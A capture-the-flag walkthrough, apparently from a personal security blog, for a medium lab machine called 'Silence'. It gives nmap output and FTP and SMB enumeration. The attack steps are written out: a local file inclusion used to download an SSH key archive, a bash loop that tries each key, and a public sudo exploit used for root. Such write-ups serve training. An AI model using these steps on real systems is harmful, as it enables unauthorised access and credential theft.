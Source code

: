 # **Silence**

***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/97b510aa-62b6-452a-870d-54a1b724d1c3)

## **Difficulty = Medium**
***

Running our nmap scan we have this -:


```bash
# Nmap 7.94 scan initiated Mon Nov 20 21:00:15 2023 as: nmap -sCV -p21,80,139,445,1055 -T4 -oN nmap.txt --min-rate=1000 -v 10.150.150.55
Nmap scan report for 10.150.150.55
Host is up (0.18s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.66.66.34
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              13 Jun 12  2020 test
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
1055/tcp open  ssh         OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| nbstat: NetBIOS name: UBUNTU, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   UBUNTU<00>           Flags: <unique><active>
|   UBUNTU<03>           Flags: <unique><active>
|   UBUNTU<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-11-20T20:33:58
|_  start_date: N/A
|_clock-skew: 33m23s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 20 21:00:40 2023 -- 1 IP address (1 host up) scanned in 24.46 seconds
```



We truly do have anonymous access to the `FTP` protocol



![](https://i.imgur.com/dmWBMK7.png)


Enumerating this service we only have one file called `test`



![](https://i.imgur.com/HFJvuU1.png)




Concatenating the `test` file we have this message 😂


![](https://i.imgur.com/Y45xb3V.png)



Enumerating the protocol `SMB` we have 2 shares


![](https://i.imgur.com/rUtXEKe.png)



We don't have read access to the `IPC$` share, neither can we connect to the `print$` share


![](https://i.imgur.com/0QFbcR5.png)


Navigating to the `HTTP` protocol we have this default apache2 web page


![](https://i.imgur.com/CsjvOLR.png)


Viewing-page source doesn't  have any useful information so i decided to run a directory bruteforce using the tool `dirsearch`


![](https://i.imgur.com/OnWzgIw.png)

Navigating to `/info.php` we have this PHP info page which leads to nothing


![](https://i.imgur.com/x5FkFpi.png)



Navigating to `/index.php` gives us this file search site


![](https://i.imgur.com/R4Pef0L.png)



Fuzzing users with `enum4linux` also gave us this


![](https://i.imgur.com/T6YQeOV.png)


Enumerated all along and found out that we need to test out various parameter on the `/index.php` page, finally `?path=/` worked


![](https://i.imgur.com/ZeYboUl.png)


One thing i noticed is that all users `/home/users/.ssh` directory has a listing like `/var/www/html` and most of the files we found when doing directory bruteforce where here


![](https://i.imgur.com/WRJpaAm.png)


Navigating to `/var/www/html` we now have all files and directory we did not find using `dirsearch` here


![](https://i.imgur.com/oNtt3J8.png)



Navigating to `/trick.php?page=LFI_PAYLOAD`, we where able to get `LFI`

![](https://i.imgur.com/rmyd3uq.png)

So 2 parameters are valid which are `path` and `page`, Navigating back to our `/home` directory i found a backup file on user **sally's** home directory


![](https://i.imgur.com/BXfIG4C.png)



We can then go ahead and download the file using wget on `/trick.php` then decompress it

```bash
wget http://10.150.150.55/trick.php?page=/home/sally/backup/SSHArchiveBackup.tar.gz
```


![](https://i.imgur.com/9AE17Px.png)


Navigating to the `private` folder we decompressed, we have this huge list of `id_rsa` files


![](https://i.imgur.com/RTvvDJW.png)


Well we can use a **for loop** in bash to make connections through all of this `id_rsa` files, and then when it finds one, it logs in automatically


```bash
$ chmod 600 id_rsa*
$ for key in ./id_rsa*; do ssh -o BatchMode=yes -i "$key" sally@10.150.150.55 -p 1055 || true; done
```

We got shell as user `sally` after all, 70th attempt 🥱

```bash
 $ ssh -i id_rsa70 sally@10.150.150.55 -p 1055
```


![](https://i.imgur.com/HjnHTNl.png)


> In this command, the `-o BatchMode=yes` option tells `ssh` to operate in batch mode, meaning it won't prompt for passwords or passphrases. The `|| true` at the end ensures that the loop continues even if the `ssh` command fails (for example, if the key is not valid). It prevents the loop from stopping prematurely due to a failed `ssh` command.

## **Privilege Escalation**

Checking the version of `sudo`, we have an outdated sudo version vulnerable to 


![](https://i.imgur.com/gfQADE7.png)


We can get an exploit from [here](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit/tree/main) and transfer it to user **sally's** home folder since `/tmp` does not allow us to execute binaries


![](https://i.imgur.com/MEiDwAz.png)



Run the following command to get user **root**

```bash
$ make
$ ./exploit
```


![](https://i.imgur.com/suLM00m.png)


## **Things i Learnt**

- Always try out different parameters on URL if nothing shows up on enumeration
- Look deeper, it is not always about "**lateral movement**" (I thought we would switch to users since we have multiple users, but it turned out the other way around 😂)


That will be all for today, Have a nice week 👨‍💻



[](https://i.pinimg.com/originals/79/7f/34/797f347cc1b437839cd21b44aa6fde96.gif)



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>




